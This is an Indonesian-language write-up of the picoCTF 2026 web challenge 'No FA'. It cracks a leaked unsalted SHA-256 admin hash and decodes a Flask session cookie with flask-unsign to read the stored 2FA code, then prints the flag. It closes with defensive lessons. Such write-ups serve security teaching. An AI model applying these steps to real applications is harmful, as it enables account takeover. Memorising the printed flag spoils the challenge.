

# No FA — picoCTF 2026

| Informasi | Detail |
|---|---|
| Event | picoCTF 2026 |
| Challenge | No FA |
| Kategori | Web Exploitation |
| Difficulty | Medium |
| Poin | 200 |
| Author | Darkraicg492 |

## Deskripsi Challenge

> Seems like some data has been leaked! Can you get the flag?

Pada challenge ini, kita diberikan sebuah aplikasi web beserta data yang bocor. Tujuan akhirnya adalah mendapatkan flag dari halaman utama aplikasi. Dari source code, flag hanya akan ditampilkan ketika user yang login adalah `admin`.

## Reconnaissance / Analisis Awal

Attachment challenge berisi dua file penting:

- Source code aplikasi Flask: [`app.py`](attachment/app.py)
- Database SQLite: [`users.db`](attachment/users.db)

Langkah pertama adalah memahami struktur database yang diberikan. File database terdeteksi sebagai SQLite.

```bash
file users.db
```

Output:

```text
users.db: SQLite 3.x database, last written using SQLite version 3049001, file counter 2, database pages 4, cookie 0x1, schema 4, UTF-8, version-valid-for 2
```

Kemudian database dibuka menggunakan `sqlite3`.

```bash
sqlite3 users.db
```

Output awal:

```text
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints.
sqlite>
```

Melihat daftar tabel:

```sql
.tables
```

Output:

```text
users
```

Melihat schema tabel `users`:

```sql
.schema users
```

Output:

```sql
CREATE TABLE users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT UNIQUE NOT NULL,
    email TEXT NOT NULL,
    password TEXT NOT NULL,
    two_fa BOOLEAN NOT NULL DEFAULT 0
);
```

Dari isi tabel, ditemukan akun `admin` dengan hash password dan status 2FA aktif.

```text
5|admin|iamadmin@nfs.com|c20fa16907343eef642d10f0bdb81bf629e6aaf6c906f26eabda079ca9e5ab67|1
```

Screenshot proses pengecekan database:


Selanjutnya, source code aplikasi dianalisis untuk memahami alur autentikasi. Pada route `/`, flag hanya diberikan jika username pada session adalah `admin`.

```python
@app.route("/")
def home():
    if 'username' not in session or session['logged'] == 'false':
        flash('Please login to access this page', 'red')
        return redirect(url_for('login'))
    
    flag = "No flag for you!!"
    if session.get('username') == 'admin':
        flag = os.getenv('FLAG')
    
    return render_template("index.html", flag=flag)
```

Artinya, untuk mendapatkan flag kita harus:

1. Login sebagai `admin`.
2. Melewati proses 2FA.
3. Mengakses halaman utama sebagai user `admin`.

## Vulnerability Identified

Terdapat dua kelemahan utama pada aplikasi ini.

### 1. Password Hash Menggunakan SHA-256 Tanpa Salt

Pada proses login, password dari input user langsung di-hash menggunakan SHA-256 lalu dibandingkan dengan hash yang tersimpan di database.

```python
if user and hashlib.sha256(password.encode()).hexdigest() == user['password']:
```

Masalahnya, hash password yang bocor tidak menggunakan salt. Ketika hash tidak diberi salt, nilai hash untuk password yang sama akan selalu identik. Hal ini membuat hash mudah dicrack menggunakan wordlist atau lookup database online.

Hint challenge juga mengarah ke wordlist populer:

```text
rockyou rockyou rockyou
```

Hash admin:

```text
c20fa16907343eef642d10f0bdb81bf629e6aaf6c906f26eabda079ca9e5ab67
```

Hash tersebut dianalisis menggunakan hash analyzer dan terdeteksi sebagai SHA2-256.


Kemudian hash dicrack dan menghasilkan password berikut:

```text
apple@123
```


Dengan demikian credential admin yang valid adalah:

```text
username: admin
password: apple@123
```

### 2. OTP 2FA Disimpan di Client-Side Session Cookie

Ketika user yang memiliki 2FA aktif berhasil memasukkan username dan password, aplikasi membuat OTP 4 digit.

```python
otp = str(random.randint(1000, 9999))
session['otp_secret'] = otp
session['otp_timestamp'] = time.time()
session['username'] = username
session['logged'] = 'false'
```

Masalahnya, aplikasi Flask secara default menyimpan `session` di cookie client-side. Cookie Flask memang ditandatangani untuk mencegah modifikasi tanpa secret key, tetapi isinya tidak dienkripsi. Artinya, data sensitif seperti OTP masih bisa dibaca oleh attacker dari cookie.

Route 2FA kemudian membandingkan OTP input user dengan nilai `otp_secret` dari session.

```python
@app.route('/two_fa', methods=['GET', 'POST'])
def two_fa():
    if request.method == 'POST':
        otp = request.form['otp']
        stored_otp = session['otp_secret']
        timestamp = session.get('otp_timestamp')
        if stored_otp and otp == stored_otp and (time.time() - timestamp) < 120:
            session['logged'] = 'true'
            flash('Login successful!', 'green')
            return redirect(url_for('home'))
        else:
            flash('Invalid OTP or OTP expired', 'red')
            return render_template('2fa.html')
    else:
        return render_template('2fa.html')
```

Karena OTP tersimpan di cookie, attacker tidak perlu brute force OTP. Cukup decode cookie session, ambil nilai `otp_secret`, lalu masukkan OTP tersebut pada form 2FA.

## Exploitation Steps

### 1. Login Menggunakan Credential Admin

Setelah password berhasil ditemukan, login ke aplikasi menggunakan credential berikut:

```text
username: admin
password: apple@123
```


Setelah login, aplikasi meminta OTP 4 digit karena akun admin memiliki 2FA aktif.


### 2. Ambil Cookie Session dari Browser DevTools

Buka browser DevTools, lalu masuk ke bagian Application → Cookies. Dari sana, salin nilai cookie session Flask.


Cookie session yang didapat:

```text
.eJwty0sKgCAUAMC7vLVEiv_LhORLBH-oraK756LtwDyQagjowcLl0kAgUGc7Bp4d50ItjPxtxoxjutzAUqUp3alhYmNSGsU5gXtgLy7jSs7nWOD9AEfEHGg.ail1ZQ.ctTCijNjuEgZ87LUvUm4a7sPC0M
```

### 3. Decode Cookie Flask

Cookie Flask dapat didecode menggunakan `flask-unsign`.

```bash
flask-unsign --decode --cookie '.eJwty0sKgCAUAMC7vLVEiv_LhORLBH-oraK756LtwDyQagjowcLl0kAgUGc7Bp4d50ItjPxtxoxjutzAUqUp3alhYmNSGsU5gXtgLy7jSs7nWOD9AEfEHGg.ail1ZQ.ctTCijNjuEgZ87LUvUm4a7sPC0M'
```

Output:

```python
{'logged': 'false', 'otp_secret': '8596', 'otp_timestamp': 1781101925.2669744, 'username': 'admin'}
```


Dari hasil decode, terlihat bahwa OTP tersimpan langsung di dalam session cookie.

```text
otp_secret: 8596
```

### 4. Masukkan OTP dan Ambil Flag

Masukkan OTP `8596` pada halaman 2FA. Karena nilai OTP valid dan masih berada dalam window waktu yang diizinkan, aplikasi mengubah session login menjadi valid.

```python
session['logged'] = 'true'
```

Setelah berhasil melewati 2FA, kita diarahkan ke halaman utama sebagai `admin`, sehingga flag ditampilkan.



## Flag

```text
picoCTF{n0_r4t3_n0_4uth_7bd3c284}
```

## Lesson Learned

Jangan menyimpan data sensitif seperti OTP di client-side session cookie, karena cookie Flask hanya ditandatangani, bukan dienkripsi. Selain itu, password harus di-hash menggunakan algoritma khusus password seperti bcrypt, scrypt, atau Argon2 dengan salt unik agar tidak mudah dicrack ketika database bocor.

Writer : Muhammad Afif Nuromli
